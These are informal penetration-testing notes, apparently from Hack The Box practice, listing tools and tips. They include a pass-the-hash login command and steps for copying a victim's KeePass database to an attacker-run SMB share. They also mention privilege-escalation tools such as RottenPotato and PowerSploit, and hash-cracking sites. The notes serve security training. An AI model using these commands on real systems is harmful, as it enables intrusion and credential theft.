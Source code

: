 look at https://ippsec.rocks/ to search his vids
nmap -sC -sV -oA outputFile IP

-Pass the hash attack to login as a user
   pth-winexe -U jenkins/administrator //10.10.10.63 cmd.exe
   
-transfer files from powershell to attcker kali set up an smb server
  on Kali
    impacket-smb server PleaseSubscribe 'pwd'
  on vulnerable machine in powershell
   New-PSDrive -Name "FollowOnTwitter" -PSProvider "FileSystem" -Root "\\kaliIP\PleaseSubscribe"
   cp C:\Users\kohsuke\Documents\CEH.kdbx .
   
 - powersploit is a good powershell privesc script
    clone and use from developer branch as it enumerates more stuff
    
- common windows privesc exploit: rottenpotato

Hashes.org and hashkiller best website hash cracking

-gobuster 
  -k flag ignores ssl
  shorepoint has its own directory wordlist
  
-connect to webdav using cadaver tool

-ad DNS names to host file to hit them all
  Ippsec cronos is a good example
  
-oracle odat tool

Good website for basic enumeration for ports/services found: http://0daysecurity.com/penetration-testing/enumeration.html

